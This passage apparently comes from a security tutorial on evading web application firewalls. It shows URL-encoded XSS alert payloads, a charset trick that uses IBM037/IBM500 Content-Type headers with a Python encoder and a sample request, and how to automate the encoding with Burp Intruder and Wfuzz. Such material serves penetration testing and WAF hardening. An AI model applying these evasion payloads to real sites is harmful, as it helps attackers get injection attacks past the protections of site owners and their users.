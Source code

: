 When encoding, focus on the characters that may be blocked, such as
these:
```json
< > ( ) [ ] { } ; ' / \ |
```

You could either encode part of a payload or encode all

```json
%3cscript%3ealert %28%27supervuln%27%28%3c%2fscript %3e
%3c%73%63%72%69%70%74%3ealert('supervuln')%3c%2f%73%63%72%69%70%74%3e
```

#### 1.1 - Charset Encoding

This technique involves modifying the `Content-Type` header to use a different charset (e.g. `ibm500`). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python

```python
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037"))) 

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```

### 4 - Automation w/*Burp Intruder* & *Wfuzz*

-  *Intruder* -> *Payloads*, **Payload Processing Option** allows you to add rules that Burp will apply to each payload before it is sent.

- Let's say we can bypass WAF by The following rule , we can apply it then start fuzzing for passwords or whatso

- Rules are applied from **TOP** to **BOTTOM** , in this example , suffix and prefix are added after encoding so they are not encoded.
![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_004051.png)

- `Wfuzz` [Usage](https://wfuzz.readthedocs.io/en/latest/user/advanced.html#iterators-combining-payloads)

- List encoding methods:
```js
wfuzz -e encoders
```
